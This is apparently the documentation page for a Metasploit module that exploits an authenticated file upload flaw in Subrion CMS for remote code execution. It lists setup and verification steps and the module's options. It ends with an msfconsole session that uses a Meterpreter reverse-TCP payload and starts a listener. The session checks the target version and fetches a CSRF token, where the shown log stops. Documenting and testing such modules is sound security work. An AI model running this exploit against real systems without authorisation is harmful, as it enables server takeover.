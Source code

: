Once the configuration is done, navigate to `http://subrion-vuln.com/panel/` and login as an Administrator to confirm successful setup.

## Verification Steps

1. Install and set up Subrion CMS v4.2.1 as described above.
2. Verify that the Admin Panel login page can be accessed at `http://subrion-vuln.com/panel/`.
3. Start `msfconsole`
4. Do: `use exploit/multi/http/subrion_cms_file_upload_rce`
5. Do: `set RHOSTS [SUBRION_SERVER_IP]`
6. Do: `set RPORT [SUBRION_SERVER_PORT]`
7. Do: `set USERNAME [username]`
8. Do: `set PASSWORD [password]`
9. Do: `set LHOST eth0`
10. Do: `exploit`

## Options

### RPORT (Required)

This is the default HTTP port 80 for the Subrion CMS website.

### TARGETURI (Required)

This is the base path of the Subrion CMS's website. Can be changed in case the files are not installed as a VHost,
for example, in `/var/www/html/subrion/*` and not in `/var/www/subrion/*`

### USERNAME (Required)

This is the username for the Subrion CMS admin panel page, required for exploitation.

### PASSWORD (Required)

This is the password for the Subrion CMS admin panel page, also required for exploitation.

## Scenarios

### Subrion CMS v4.1.0 with Docker on Debian 10

* Using PHP payload - default TARGET 0

```
msf > use exploit/multi/http/subrion_cms_file_upload_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(multi/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.245.138
RHOSTS => 192.168.245.138
msf exploit(multi/http/subrion_cms_file_upload_rce) > set RPORT 8080
RPORT => 8080
msf exploit(multi/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => eth0
msf exploit(multi/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.245.138:8080/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.1.0.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: 9cedb67d955cadc5fac7dc7ddf32e425
```